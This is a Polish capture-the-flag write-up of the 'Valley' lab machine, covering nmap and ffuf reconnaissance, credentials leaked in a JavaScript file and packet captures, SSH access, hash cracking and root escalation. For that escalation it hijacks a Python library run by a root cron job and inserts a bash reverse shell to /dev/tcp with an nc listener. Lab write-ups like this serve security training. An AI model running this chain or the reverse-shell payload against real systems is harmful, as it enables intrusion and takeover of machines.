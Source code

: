 # TheValley
IP=10.10.177.139

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -p- 10.10.177.139 
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-28 02:41 EDT
Nmap scan report for 10.10.177.139
Host is up (0.050s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
37370/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 37.47 seconds

```

Przeprowadźmy bardziej szczegółowy skan:

```
sudo nmap -sV -sC -p 22,80,37370 10.10.177.139  
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-28 02:42 EDT
Nmap scan report for 10.10.177.139
Host is up (0.049s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:84:2a:c1:22:5a:10:f1:66:16:dd:a0:f6:04:62:95 (RSA)
|   256 42:9e:2f:f6:3e:5a:db:51:99:62:71:c4:8c:22:3e:bb (ECDSA)
|_  256 2e:a0:a5:6c:d9:83:e0:01:6c:b9:8a:60:9b:63:86:72 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.41 (Ubuntu)
37370/tcp open  ftp     vsftpd 3.0.3
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.93 seconds
```

Porty 80 i 37370 są najciekawsze ze względu na potencjalne zagrożenia bezpieczeństwa. Port usługi ftp jest dużo wyższy niż zazwyczaj.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80:

![Valley](img/Valley.JPG)

Jest to galeria ze zdjęciami.  W źródle strony nie ma nic ciekawego, ale istnieje możliwość numeracji po numerach zdjęć:

![Numer](img/Numer.JPG)

Przeprowadźmy enumerację przy pomocy narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.177.139/static/FUZZ -c 
```

![00](img/00.JPG)

Ffuf znalazł nowy plik "00". Przejdźmy do tej lokalizacji:

![Note](img/Note.JPG)

Widzimy notatki, które dostarczają informacji o ukrytej podstronie:

```
/dev1243224123123
```

![Dev](img/Dev.JPG)

Jest to panel logowania do serwisu Valley Photo Co. W źródle strony możemy znaleźć plik dev.js:

![DevJs](img/DevJs.JPG)

Po kliknięciu w odnośnik widzimy dane do logowania w postaci jawnej oraz ukrytą notatkę:

![Dane](img/Dane.JPG)

```
siemDev:california
```
```
/dev1243224123123/devNotes37370.txt
```

Logując się do panelu lub bezpośrednio przechodząc do notatki widzimy, że dane do logowania prawdopodobnie pasują też do serwisu ftp na porcie 37370:

![Notka](img/Notka.JPG)

### Port 37370

Logujemy się do serwisu ftp na porcie 37370:

```
ftp -p 10.10.177.139 37370
```
```
Username: siemDev
```
```
Password: california
```

![FTP](img/FTP.JPG)

Znajdujemy 3 pliki z rozszerzeniem .pcapng i pobieramy je:

![Ls](img/Ls.JPG)

```
mget *
```
![Mget](img/Mget.JPG)

Otwieramy plik w programie do analizy ruchu siecowego np. Wireshark siemHTTP2.pcapng, a następnie przechodząc kolejno przez opcje: File -> Export Objects -> HTTP znajdujemy stronę index.html:

![Index](img/Index.JPG)

Pobieramy go i otwieramy:

![IndexFile](img/IndexFile.JPG)

Znalezione dane można wykrozystać do logowania w serwisie ssh:

```
valleyDev:ph0t0s1234
```

## Eksploitacja

### Port 22

Logujemy się przez ssh używając znalezionych danych do logowania komedną:

```
ssh valleyDev@10.10.177.139
```

![SSH](img/SSH.JPG)

W pliku user.txt znajdujemy pierwszą flagę:

```
THM{k@l1_1n_th3_v@lley}
```

![Flag1](img/Flag1.JPG)

## Zwiększenie poziomu uprawnień

### valleyDev -> valley

Za pomocą poniższej komendy sprawdzamy uprawnienia użytkownika valleyDev:

```
sudo -l
```

![Sudo](img/Sudo.JPG)

W pliku crontab znajdujemy proces wykonywany przez użytkownika root, który odpala pewien skrypt:

![Crontab](img/Crontab.JPG)

Skrypt importuje bibliotekę base64, co daje potencjalny wektor ataku, jeżeli jesteśmy w stanie edytować ten plik: 

![Photos](img/Photos.JPG)

Dostęp do pliku ma użytkownik valley, więc najpierw musimy zdobyć uprawnienia tego użytkownika:

![Phyton](img/Python.JPG)

W katalogu /home znajdujemy plik valleyAuthenticator

![Auth](img/Auth.JPG)

Pobieramy plik z serwera komendą:

```
scp username@hostname:/path/to/remote/file /path/to/local/file
```
```
scp valleyDev@10.10.177.139:/home/valleyAuthenticator /home/kali
```

Wyciągamy z pliku słowa komendą 'strings' i zapisujemy je w pliku:

![Strings](img/Strings.JPG)

Znajdujemy ciąg znaków przypominający hash:

![Hash](img/Hash.JPG)

```
e6722920bab2326f8217e4bf6b1b58ac
```

Łamiemy hash za pomocą CrackStation:

![Crack](img/Crack.JPG)

```
liberty123
```

Zmieniamy użytkownika na valley przy pomocy zdobytego hasła:

```
valley:liberty123
```

![UserValley](img/UserValley.JPG)

Edytujemy plik /lib/python3.8/base64.py dodając komendy:

```
import os
os.system('bash -c "bash -i >& /dev/tcp/[IP]/[PORT] 0>&1"')
```

Czekamy na połączenie:

```
nc -lvnp [PORT]
```

Po chwili uzyskujemy dostęp jako użytkownik root:

![Shell](img/Shell.JPG)

W pliku root.txt znajdujemy drugą flagę:

![Root](img/Root.JPG)

Do zobaczenia na kolejnych CTF-ach!
